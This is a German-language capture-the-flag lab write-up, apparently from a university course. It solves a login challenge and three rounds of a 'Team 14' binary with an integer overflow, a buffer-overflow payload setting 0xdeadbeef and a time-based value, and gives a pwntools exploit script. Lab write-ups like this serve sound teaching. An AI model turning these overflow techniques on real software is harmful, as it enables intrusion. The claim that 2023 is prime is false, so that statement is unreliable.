 Benutzername: egal
Passwort: DevAAAAAAAA1337

(oder irgendein beliebiges Zeichen statt A)

Anschließend erhalten wir die Flagge.

statt  ENTER, muss man  MIT CTRL + D besttätigen.
FLAG{FLAG{FLAG{FLAG{FLAG}}}}

# Team 14


```text

Hat drei rounds ...

```
Round 1:
```
Es wird nach der Faktorisierung von X * Y = 2023 gefragt, wobei X und Y eingegeben werden müssen. Natürlich kann man nicht einfach 1 und 2023 eingeben, wäre ja zu einfach. Es existiert keine weitere Faktorisierung, da 2023 eine Primzahl ist. Daher muss ein Integer-Overflow / Underflow verwendet werden.

Wir wählen:
4294967295 + 2004 = 4294969299 (2004 statt 2003, weil 0 existiert)

-> 10071 426469 (Primfaktorzerlegung..)
```
Round 2:
```
Normaler Check mit Bufferoverflow, eine Variable muss 0xdeadbeef sein. Wir müssen also 10 Zeichen eingeben und dann 0xdeadbeef im richtigen Encoding angeben (jetzt mal ernsthaft, wer kann denn bitte schon little endian auf den ersten Versuch richtig eingeben, danke dass ihr es printet).
```
Round 3:
```
Currenttime muss in Sekunden umgerechnet werden, dann ein bisschen geshiftet werden. Wir replizieren es lokal und geben den Wert ein. Hier war das Problem, dass die Serverzeit unterschiedlich ist, wodurch wir lokal das Offset bestimmen und dann schnell nochmal lösen (in der gleichen Sekunde).
Siehe Script.
```
```python
from pwn import *
import time

pty = process.PTY

# context.log_level = 'debug'
p = process("./team_14", stdin=pty, stdout=pty)
# p = remote("tank.informatik.hs-mannheim.de", 3114)

# prime factorization
p.sendlineafter(b"?", b"10071 426469")

# Round 2
p.sendlineafter(b"?", b"AAAAAAAAAA\xEF\xBE\xAD\xDE")

# Round 3
currtime = int(time.time())
currtime = currtime ^ (currtime >> 0xc)
currtime = currtime ^ (currtime << 0x19)
currtime = currtime ^ (currtime >> 0x1b)

p.sendlineafter(b"?", str.encode(str(currtime)))
```